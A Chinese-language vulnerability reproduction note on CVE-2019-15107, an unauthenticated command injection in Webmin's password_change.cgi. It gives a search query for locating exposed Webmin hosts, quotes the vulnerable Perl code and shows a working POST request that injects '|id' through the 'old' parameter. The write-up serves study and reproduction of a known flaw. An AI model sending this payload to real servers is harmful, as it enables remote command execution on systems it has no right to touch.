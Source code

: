 # 

# Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页。面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 漏洞影响

```
Webmin <= 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291019698.png)

漏洞的触发点为文件 password_change.cgi

![image-20220829102002569](./images/202208291020663.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![image-20220829102029855](./images/202208291020941.png)

```
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![image-20220829102048174](./images/202208291020246.png)

